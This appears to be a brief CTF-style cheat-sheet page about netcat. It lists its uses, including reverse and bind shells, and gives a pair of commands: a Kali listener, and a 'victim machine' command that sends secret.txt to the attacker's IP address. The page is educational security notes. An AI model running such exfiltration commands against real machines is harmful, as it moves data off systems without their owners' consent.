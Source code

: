 # nc

```
Description: Netcat ("Swiss Army knife" of networking) can:
    Connect to TCP or UDP ports
    Create reverse or bind shells (great for CTFs)
    Transfer files
    Listen for incoming connections (like a basic server)
    Scan ports (basic)

On Kali Linux (Receiver Machine):

nc -l -p 1234 > received.txt
```

# Victim Machine (SendBack Machine)
```
nc -w 3 192.168.0.1 1234 < secret.txt
```

## Back to README.md
[BACK](../README.md)